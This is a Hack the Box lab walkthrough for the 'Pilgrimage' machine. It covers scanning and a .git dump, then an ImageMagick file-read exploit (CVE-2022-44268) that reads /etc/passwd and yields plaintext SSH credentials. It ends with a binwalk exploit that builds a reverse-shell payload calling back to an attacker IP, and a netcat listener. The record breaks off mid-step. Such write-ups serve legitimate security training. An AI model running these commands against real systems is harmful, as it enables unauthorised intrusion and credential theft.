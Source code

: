 # Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit is scripted in rust. I will be using an explot scripted in python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)

- Identified Users
  - root
  - emily

- The code in `/register.php` contains:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c690079-74ee-4b7b-b598-9bdad2152018)

- Prepare a payload and read the file as done in the previous step. I had to modify the script as it was throwing an error. Now I get the output as hex.
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5bc11c30f2.png | tee data.hex
```
- Convert the received hex data as an image to string.
```
cat data.hex | xxd -r -p && echo ''
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf82acca-237f-434e-8797-cebf1f19f690)

- Credentials found: emily:abigchonkyboi123

### FootHold
```
ssh emily@10.10.11.219
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c917b15a-555d-4fc4-8dd2-b21d8c8be882)

### List Processes
```
ps -aux
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f693978e-2530-4cfd-97de-bc04979feabf)

- Contents of `/usr/sbin/malwarescan.sh`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c61faa6e-3264-4917-a728-9faef849e886)

- The bash script uses a command `inotifywait` to monitor a directory for newly created files and then checks if the content of those files contains certain blacklisted phrases using the `binwalk` tool.
- binwalk version 2.3.2
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/33e56901-7cee-48a7-9490-5a39a42abc38)

### Search Exploits
```
searchsploit binwalk
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/13ca1261-42a7-4550-859e-a0ded4e1810f)
```
searchsploit -m python/remote/51249.py
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ef00376b-efa4-4888-b85a-642cb5318652)

- Prepare Payload
```
python3 51249.py poison.png 10.10.14.61 4444 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/378aa7bf-e083-41ed-a953-0fa7154bb520)

- Start a netcat listener
```
rlwrap nc -nlvvp 4444
```

- Upload the payload file (binwalk_exploit.png) to the target. Since the bash script `malwarescan.sh` uses the binwalk tool to scan the images uploaded to the `/var/www/pilgrimage.htb/shrunk` directory, the payload needs to be placed here.
- 
